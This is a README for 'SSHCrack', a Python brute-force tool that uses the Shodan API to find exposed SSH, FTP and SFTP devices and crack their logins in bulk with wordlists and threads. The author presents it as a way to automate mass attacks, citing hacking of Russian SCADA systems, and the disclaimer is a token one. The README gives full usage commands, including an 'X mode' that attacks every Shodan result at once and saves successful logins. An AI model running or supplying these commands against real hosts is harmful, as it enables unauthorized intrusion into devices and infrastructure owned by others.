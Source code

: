 # SSHCrack
Tool for cracking into SSH IoT devices with built in Shodan API capabilities for optimal automation. This is essentially my own Hydra clone with psuedo multi threading and Shodan API capabilities to attack large amounts of targets effeciently.

The idea came from a video by David Bombal interviewing with a hacker who's efforts were against the Russian Federation in assistance of Ukraine. He mainly hacked Russia's SCADA systems along with assistance from Shodan. My idea was to basically automate this process by iterating through a large number of targets utilizing python's pseudo multi threading for faster cracking.

Currently this tool is only developed for Windows operating systems and for SSH, FTP, and SFTP cracking. Future versions will include Linux compatability as well as other common ports.

**DISCLAIMER: Do Not Use This Tool For Any Illegal Purposes. I Am NOT Liable For Any Damages Caused By Using This Tool. This Is Purely For Educational And Learning Purposes.**

# Usage
Download using `sudo git clone https://github.com/BredSec/SSHCrack.git`

Go to the directory `cd SSHCrack`

Run Python script with `python3 sshcrack.py -h` for the help screen
```
   _____ _____ _    _  _____ _____            _____ _  __
  / ____/ ____| |  | |/ ____|  __ \     /\   / ____| |/ /
 | (___| (___ | |__| | |    | |__) |   /  \ | |    | ' /
  \___ \___ \ |  __  | |    |  _  /   / /\ \| |    |  <
  ____) |___) | |  | | |____| | \ \  / ____ \ |____| . \
 |_____/_____/|_|  |_|\_____|_|  \_\/_/    \_\_____|_|\_\  v1.0

              Created by @BredSec

       Disclaimer: Developers not liable or responsible
       for misuse or damage caused by SSHCrack


usage: python sshcrack.py [-k --key <api key>] [-t --target <target name>] [-i --iplist <ip list>]
[-u --userlist <username list>] [-p --passlist <password list>] [-a --attack <attack method>]
[-o --output <output file name>] [-m --multi <thread number>] [-x] [-v --verbose]


-h --help                     | Display help menu of arguments and command use


-k --key <api key>            | Enter your Shodan API key here to enable Shodan searches
-t --target <target>          | Used to conduct an ssh search with shodan on a specified target
-i --iplist <ip list>         | Specify a file with a list of IPs to enumerate through and crack
-u --userlist <username list> | Specify a wordlist of usernames to enermate through
                              (default will be common default ssh logins)
-p --passlist <password list> | Specify a wordlist of passwords to enumerate through
                              (default will be common default ssh logins)
-a --attack <attack method>   | Method of attack (ssh, ftp)
-o --output <filename>        | Specify the name of an output file for successful logins
-m --multi <thread number>    | Number of threads to be used during cracking (default is one)
-x                            | X mode - runs cracking on all searched IPs immediately
-v --verbose                  | Verbose mode - display everything going on
```

# Examples
```
py sshcrack.py -k xxxxxxxxxxxx -t ftp -a ftp -m 6 -x -v
```
This will search for and automatically start cracking a list of ftp servers found by Shodan utilizing pseudo multi threading and the default wordlists of most common usernames and passwords for these systems. Verbose mode will tell you everything that is happening.

```
py sshcrack.py -k xxxxxxxxxxxx -i iplist.txt -u wordlists\usernames.txt -p wordlists\rockyou.txt -a ssh -o output.txt
```
This will conduct ssh cracking on the specified list of IP addresses using the specified wordlists and outputs to a specified file.

```
py sshcrack.py -k xxxxxxxxxxxx -t ssh -a ssh -i iplist.txt -x
```
Searches for an automatically starts cracking ssh servers that it found from a Shodan search after appending them to an existing IP list. This uses the default wordlists.
